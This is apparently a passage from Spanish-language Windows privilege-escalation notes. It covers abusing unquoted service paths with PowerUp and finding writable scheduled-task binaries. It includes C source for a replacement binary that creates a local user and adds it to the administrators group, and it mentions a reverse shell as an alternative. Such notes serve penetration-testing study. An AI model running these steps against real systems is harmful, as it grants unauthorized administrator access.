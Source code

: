 ###### Alternativa - PowerUp

```powershell
powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService
Write-ServiceBinary -Name '<SERVICE>' -Path "C:\Program Files\my binary\binary.exe"
Start-Service <SERVICE>
```

##### Tareas Programadas (Scheduled Tasks)

> Las **Scheduled Tasks** (Tareas Programadas) en Windows son una función del sistema operativo que permite automatizar la ejecución de programas, scripts o comandos en momentos específicos o bajo ciertas condiciones. Estas tareas se pueden configurar para que se ejecuten diariamente, semanalmente, mensualmente, al iniciar el sistema, al iniciar sesión, o incluso cuando ocurren eventos específicos. Son útiles para realizar mantenimiento automático, backups, actualizaciones, o cualquier tarea repetitiva sin necesidad de intervención manual.

```powershell
# Listar las tareas programadas
schtasks /query /fo LIST /v
Get-ScheduleTask
Get-ScheduledTask | Where-Object { $_.Author -and $_.Author -notmatch 'Microsoft|SYSTEM|S-1-5-18|S-1-5-19|S-1-5-20' } | Select-Object TaskName, Author, @{Name='TaskToRun'; Expression={$_.Actions.Execute}}, NextRunTime
```

Cuando listamos las tareas programadas deberíamos buscar información interesante, como el autor, el nombre de la tarea, la tarea a ejecutar, el usuario que ejecuta la tarea y la próxima ejecución de la tarea.

Buscamos la ruta de la tarea a ejecutar y comprobamos si tenemos permisos de escritura en esa ruta, para poder remplazar el binario.

```powershell
icacls C:\Ruta\Al\Binario\<BINARY>.exe
```

Reutilizamos el binario `adduser.exe` el cual crea y agrega un nuevo usuario al grupo administrador (esto depende del usuario que este ejecutando la tarea) o también podemos lanzarnos una reverse shell.

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user elliot Password123! /add");
  i = system ("net localgroup administrators elliot /add");
  
  return 0;
}
```
